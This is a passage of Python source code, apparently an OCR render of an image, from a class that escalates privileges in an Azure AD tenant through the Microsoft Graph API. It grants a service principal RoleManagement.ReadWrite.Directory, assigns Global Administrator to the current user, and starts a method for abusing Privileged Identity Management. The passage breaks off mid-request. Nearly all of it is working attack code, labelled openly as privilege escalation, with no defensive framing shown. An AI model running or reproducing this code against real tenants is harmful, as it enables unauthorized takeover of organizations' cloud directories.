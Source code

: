 ```python
        # Step 3: Grant admin consent (requires Application Administrator)
        consent_url = f"{self.graph_url}/servicePrincipals/{sp_object_id}/appRoleAssignments"

        # Assign RoleManagement.ReadWrite.Directory
        role_assignment = {
            "principalId": sp_object_id,
            "resourceId": "00000003-0000-0000-c000-000000000000",
            "appRoleId": "9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8"
        }

        consent_response = requests.post(consent_url, headers=headers, json=role_assignment)

        if consent_response.status_code == 201:
            print(f"Privilege escalation successful. App ID: {app_id}")
            return app_id
        else:
            print(f"Privilege escalation failed: {consent_response.text}")
            return False

    def assign_global_admin_role(self, app_id):
        """Assign Global Administrator role using escalated privileges"""
        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        # Get Global Administrator role template ID
        global_admin_role_id = "62e90394-69f5-4237-9190-012177145e10"

        # Get current user ID
        me_response = requests.get(f"{self.graph_url}/me", headers=headers)
        current_user_id = me_response.json()['id']

        # Assign Global Admin role
        role_assignment = {
            "@odata.type": "microsoft.graph.unifiedRoleAssignment",
            "roleDefinitionId": global_admin_role_id,
            "principalId": current_user_id,
            "directoryScopeId": "/"
        }

        assignment_url = f"{self.graph_url}/roleManagement/directory/roleAssignments"
        assignment_response = requests.post(assignment_url, headers=headers, json=role_assignment)

        if assignment_response.status_code == 201:
            print("Global Administrator role assigned successfully")
            return True
        else:
            print(f"Role assignment failed: {assignment_response.text}")
            return False

    def escalate_via_pim_abuse(self, target_role_id):
        """Abuse Privileged Identity Management for escalation"""
        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        # Activate privileged role through PIM
        pim_url = "https://graph.microsoft.com/beta/privilegedAccess/azureAD/roleAssignmentRequests"

        activation_request = {
```